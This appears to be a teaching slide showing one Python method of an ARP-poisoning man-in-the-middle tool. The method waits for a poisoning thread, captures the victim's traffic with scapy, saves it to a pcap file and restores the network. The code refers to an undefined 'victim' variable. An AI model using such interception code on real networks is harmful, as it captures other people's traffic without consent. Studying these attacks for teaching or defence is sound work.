

def sniff(self,count=100):
        '''sniffs for a 100 packets by default'''
        #1)give the poisoning thread time to start working
        time.sleep(5)
        print(f'Sniffing {count} packets')
        #2)only packets that have the victim’s IP
        BPFilter = "ip host %s" % victim
        #3)get a whole lot of packets
        packets = sniff(count=count, filter=BPFilter, iface=self.interface)
        #4)write these packets to a pcap file called MrArperYP.pcap
        wrpcap('MrArperYP.pcap', packets)
        print('Got the packets (in pcap file (called MrArperYP.pcap')
        #5)put everything back as before and end the poison threads
        self.restore()
        self.poison_thread.terminate()
        print('Finished.')